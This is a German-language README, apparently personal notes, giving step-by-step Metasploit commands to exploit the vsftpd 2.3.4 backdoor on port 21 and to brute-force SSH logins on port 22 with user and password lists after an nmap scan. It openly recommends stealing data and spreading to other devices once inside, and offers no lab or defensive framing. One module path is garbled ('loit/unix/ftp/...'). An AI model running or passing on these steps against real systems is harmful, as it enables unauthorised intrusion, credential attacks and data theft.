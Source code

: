 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt um zu sehen welche Ports offen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``
  
 <h2>Port 21:</h2>

``service postgresql start`` <br>
``service postgresql status``
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": ``msfconsole``
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
 ``search vsftpd 2.3.4``
 So sieht es aus wenn ein Exploit existiert:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

``loit/unix/ftp/vsftpd_234_backdoor`` <br>
``use exploit loit/unix/ftp/vsftpd_234_backdoor``
  
``show options``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="700" height="150">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
``set RHOST <IP-Adresse des Ziels>``
  
 Danach kontrolieren mit: ``show options``
  
 Danach kann an einfah den Comand ``exploit`` absetzen:
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun im System ist kann man mit Befehlen wie ``WHOAMI`` oder ``$HOME`` sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif auf andere Geräte im Netzwerk erweitern. 

<h2>Port 22:</h2>

Als erstes verbindet man sich it der Metasploitdatenbank. Für diese Aktion brauch man root Privilegien.
``service postgresql start`` <br>
``service postgresql status``

Danach öffnet man wieder die "msf console": ``msfconsole``


``use auxiliary/scanner/ssh/ssh_login``
Als nächstes kann man sich die Optionen anzeigen lassen: ``show options``

Wichtig den "rhost" zu setzen mit der IP-Adresse die man Angreiffen möchte.
``set rhosts <IP-Adresse des Ziels> ``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134676800-d95a590a-606b-4ac2-9cf1-c73845384637.png" alt="PStatus Serie" width="620" height="70">

``set VERBOSE true``
``set STOP_ON_SUCCESS true``

Hier gibt man das file an wo sie die namen der möglichen User befinden.
``set USER_FILE Desktiop/<Name des Files>``

Hir gibt man das file an wo sie das File mit den Passwörtern befindet.
``set PASS_FILE Desktiop/<name des Files>``

![image](https://user-images.githubusercontent.com/57325335/134680122-384e9f39-cf69-46c4-b8a6-f924ad5e7e4f.png)![image](https://user-images.githubusercontent.com/57325335/134680053-3fe24806-1f11-435f-9bb6-67fc5bf6abb6.png)

Mit run startet man die Bruteforce attacke: ``run``

Das grüne Plus signalisiert das es geklappt hat und die Bruteforce Attacke erfolgteich war:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134681537-269891ce-d433-4cc4-97bd-5856a86a01a5.png" alt="completed attacke" width="600" height="250">

